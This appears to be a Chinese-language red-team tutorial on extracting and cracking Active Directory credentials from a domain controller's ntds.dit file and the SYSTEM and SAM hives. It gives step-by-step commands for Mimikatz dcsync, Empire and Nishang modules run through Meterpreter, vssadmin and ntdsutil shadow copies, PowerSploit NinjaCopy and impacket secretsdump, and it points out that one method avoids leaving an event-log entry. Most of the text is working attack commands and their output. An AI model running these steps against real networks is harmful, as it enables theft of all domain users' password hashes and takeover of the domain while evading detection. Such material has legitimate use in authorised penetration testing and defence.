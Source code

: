 ## ntds.dit文件的获取与解密

ntds.dit文件是域环境中域控上会有的一个文件，这个文件存储着域内所有用户的凭据信息([hash](https://so.csdn.net/so/search?q=hash&spm=1001.2101.3001.7020))。非域环境也就是在工作组环境中，有一个sam文件存储着当前主机用户的密码信息,想要破解sam文件与ntds.dit文件都需要拥有一个system文件。

~~~bash
ntds.dit文件位置: C:\Windows\NTDS\NTDS.dit
system文件位置:C:\Windows\System32\config\SYSTEM
sam文件位置:C:\Windows\System32\config\SAM
~~~

### ntds.dit部分

#### 在线破解

##### Mimikatz

所谓的在线破解就是不用将域控上的ntds.dit文件下载下来，直接在已有的shell上破解。比如说你有一个cs弹回的beacon，就可以在beacon中直接利用mimikatz来破解，**这一切的前提是有管理员权限。**

> Mimikatz有一个功能（dcsync），它可以利用目录复制服务（Directory Replication Service, DRS）从NTDS.DIT文件中提取密码哈希值。
>
> 可以通过dcsync直接获取test域内所有用户hash
> lsadump::dcsync /domain:test.com /all /csv

[![bIgAdf.png](https://s1.ax1x.com/2022/03/11/bIgAdf.png)](https://imgtu.com/i/bIgAdf)

> 可以查看所有用户的所有详细信息
> lsadump::lsa /inject

##### Empire

PowerShell Empire有两个模块可以通过DCSync攻击获取域哈希。这两个模块都需要有域管理员权限，并且它们都使用微软的复制服务。模块依靠**Invoke-Mimikatz** PowerShell脚本来执行与DCSync相关的Mimikatz命令。以下模块将域哈希提取为类似于Metasploit **hashdump**命令输出的格式。

~~~
usemodule credentials/mimikatz/dcsync_hashdump
~~~

##### Nishang

[Nishang](https://github.com/samratashok/nishang)是一个PowerShell框架，它使红队和渗透测试人员可以对系统执行攻击性操作。其中[VSS](https://github.com/samratashok/nishang/blob/master/Gather/Copy-VSS.ps1)脚本可以用于自动提取所需的文件：NTDS.DIT，SAM和系统。这些文件将解压缩到当前工作目录或任何其他指定的文件夹中。

~~~
Import-Module .\Copy-VSS.ps1
Copy-VSS
Copy-VSS -DestinationDir C:\ShadowCopy\
~~~

[![bIb42t.png](https://s1.ax1x.com/2022/03/11/bIb42t.png)](https://imgtu.com/i/bIb42t)

另外，可以通过加载PowerShell扩展程序从现有的Meterpreter会话中执行脚本。

```
load powershell
powershell_import /root/Copy-VSS.ps1
powershell_execute Copy-VSS
```

[![bIbxx0.png](https://s1.ax1x.com/2022/03/11/bIbxx0.png)](https://imgtu.com/i/bIbxx0)

一旦脚本导入到现有的Meterpreter会话中，也可以使用命令**powershell_shell**建立直接的PowerShell会话来提取文件。

```
Copy-VSS
Copy-VSS -DestinationDir C:\Ninja
```

[![bIbjGn.png](https://s1.ax1x.com/2022/03/11/bIbjGn.png)](https://imgtu.com/i/bIbjGn)













#### 离线破解

离线破解一般需要两步，首先就是将远端域控的ntds.dit下载到本地，然后利用再在本地进行破解。ntds.dit文件一直在被windows系统使用，所以常规的复制下载方法是无法将文件下载到本地的，这里我推荐如下几个方法

##### 获取ntds.dit文件的方式

###### vssadmin进行复制ntds文件

创建卷影列表

~~~
vssadmin create shadow /for=C:
~~~

获取NDTS.dit和SYSTEM

~~~
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\NTDS.dit C:\ShadowCopy\
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM C:\ShadowCopy\
~~~

删除卷影列表

~~~
vssadmin Delete Shadows /For=C:
~~~





执行完上述命令即可将ntds.dit复制到C盘下创建的ShadowCopy中。执行结果如下图所示
[![bIW7tK.png](https://s1.ax1x.com/2022/03/11/bIW7tK.png)](https://imgtu.com/i/bIW7tK)

[![bIWL1e.png](https://s1.ax1x.com/2022/03/11/bIWL1e.png)](https://imgtu.com/i/bIWL1e)

> 也可以使用这个命令复制sam或者system文件：
> copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM C:\system.hiv
> copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SAM C:\sam.hiv

###### 使用ntdsutil快照

查看当前快照列表

~~~
C:\Users\Administrator>ntdsutil snapshot "list all" quit quit
ntdsutil: snapshot
快照: list all
找不到快照。
快照: quit
ntdsutil: quit
~~~

创建快照

~~~
C:\Users\Administrator>ntdsutil snapshot "activate instance ntds" create quit quit
ntdsutil: snapshot
快照: activate instance ntds
活动实例设置为“ntds”。
快照: create
正在创建快照...
成功生成快照集 {550f5e34-1952-475b-99ef-30ba80014363}。
快照: quit
ntdsutil
~~~

**注：其中快照的guid需要取出来，挂载快照时使用**

挂载快照

~~~
C:\Users\Administrator>ntdsutil snapshot "mount {550f5e34-1952-475b-99ef-30ba80014363}" quit quit
ntdsutil: snapshot
快照: mount {550f5e34-1952-475b-99ef-30ba80014363}
快照 {b38c1255-073f-4124-a32f-75144555c3fd} 已作为 C:\$SNAP_201810172200_VOLUMEC$\ 装载
快照: quit
ntdsutil: quit
~~~

注：机器中有几块硬盘，那么就会生成几个快照分区，快照分区会以`$SNAP_时间_VOLUME{分区名}$`进行命名

[![bITYHH.png](https://s1.ax1x.com/2022/03/11/bITYHH.png)](https://imgtu.com/i/bITYHH)





或者你可以直接

[![bIfuNV.png](https://s1.ax1x.com/2022/03/11/bIfuNV.png)](https://imgtu.com/i/bIfuNV)

依次在命令行输入以下命令即可

~~~
Ntdsutil "activate instance ntds" Ifm "create full C:\ntdsutil" Quit quit
~~~

最终会在c盘下生成ntdsutil这个文件夹：

[![bIfgEt.png](https://s1.ax1x.com/2022/03/11/bIfgEt.png)](https://imgtu.com/i/bIfgEt)

这个文件夹里面存有system文件与ntds.dit文件。

###### 通过NinjaCopy获得域控服务器NTDS.dit文件

ninjacopy下载地址:https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-NinjaCopy.ps1

~~~
Import-Module -name .\Invoke-NinjaCopy.ps1
Invoke-NinjaCopy -Path "c:\windows\ntds\ntds.dit" -LocalDestination "c:\ntds.dit"
Invoke-NinjaCopy -Path "C:\Windows\System32\config\SYSTEM" -LocalDestination "c:\system.hiv"
~~~

执行结果如下

[![bIfh8S.png](https://s1.ax1x.com/2022/03/11/bIfh8S.png)](https://imgtu.com/i/bIfh8S)

这种方法没有调用Volume Shadow Copy服务，所以不会产生日志文件7036


##### 文件移动

这里假设我们拿到了CS的一个shell，我们可以直接下载对方的ntds.dit和system等内容

[![bIh8G8.png](https://s1.ax1x.com/2022/03/11/bIh8G8.png)](https://imgtu.com/i/bIh8G8)

##### 本地破解

当把文件下载到本地后，就需要开始破解其中的密码了，这时候我们采用impacket的secretsdump.py这个脚本。
命令为：

~~~python
python secretsdump.py -ntds ~/Desktop/ntds.dit -system ~/Desktop/system.hiv LOCAL
~~~

[![bIhcM4.png](https://s1.ax1x.com/2022/03/11/bIhcM4.png)](https://imgtu.com/i/bIhcM4)



DC中有一个特殊用户叫做:krbtgt,它是一个无法登录的账户,是在创建域时系统自动创建的,在整个kerberos认证中会多次用到它的Hash值去做验证

破解出的密码格式为domain\uid:rid:lmhash:nthash，例如krbtgt的密码要采用最后一个冒号后面的那个，也就是d8d2ad开头的

















